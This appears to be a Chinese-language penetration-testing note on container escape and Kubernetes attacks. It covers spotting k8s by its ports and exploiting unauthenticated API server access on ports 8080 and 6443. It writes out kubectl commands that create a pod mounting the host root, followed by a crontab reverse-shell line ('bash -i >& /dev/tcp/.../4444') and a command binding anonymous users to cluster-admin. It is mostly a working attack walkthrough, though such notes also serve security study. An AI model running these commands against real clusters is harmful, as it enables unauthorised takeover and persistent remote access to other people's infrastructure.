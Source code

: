 
### 自动化
两种方法利用：直接把cdk项目传到服务器上，第二种是把服务器反弹到自己这，然后在本地测试利用
参考
https://github.com/cdk-team/CDK/
脚本检测
https://github.com/teamssix/container-escape-check
信息收集，逃逸，修复（cdk能做到）

# k8s
Kubernetes 又称 k8s，是 Google 在 2014 年开源的一个用来管理容器的平台
从安全角度上来说，master是管理平台，node是一台台主机，pod是主机里的一个个容器
**打进去-逃逸-横向移动**
详细攻击点参考：
https://mp.weixin.qq.com/s/yQoqozJgP8F-ad24xgzIPw
https://mp.weixin.qq.com/s/QEuQa0KVwykrMzOPdgEHMQ

![[640 1.webp]]
## 判断k8s
可以通过机器开启的端口识别
![[Pasted image 20240805172344.png]]

## 攻击组件
 ### 1.攻击api server
 开放端口为8080（新版本默认不开）或者6443（有tls认证），旧版本<1.16.0的两个都开，注意：有的系统只能装旧版本的k8s
 k8s的8080端口未授权访问
 cd /etc/kubernetes/manifests/  配置文件不安全
 --insecure-port=8080
 --insecure-bind-address=0.0.0.0   //这两条配置导致未授权访问
 ![[Pasted image 20240805183159.png]]
```
 可以直接用官方工具kubect1.exe -s ip:8080 get nodes
 kubect1.exe -s ip:8080 get pods
 kubect1.exe -s ip:8080 create -f test.yaml   //这条命令用于创建一个容器，且挂载在/mnt
 kubect1.exe -s ip:8080 --namespace=default exec -it test bash
 echo -e "* * * * root bash -i >& /dev/tcp/192.168.*.*/4444 0>&1\n" >> /mnt/etc/crontab
```
 ![[Pasted image 20240805184604.png]]
 hostPath:

    path: /: 将主机的根目录/挂载到容器的/mnt目录。
    至此我们拿到了一个node的权限

2、攻击6443端口:API Server 未授权访问一些集群由于鉴权配置不当，将"system:anonymous"用户绑定到"cluster-admin"用户组，从而使 6443端口允许匿名用户以管理员权限向集群内部下发指令。kubectl create clusterrolebinding system:anonymous
--clusterrole=cluster-admin  --user=system:anonymous
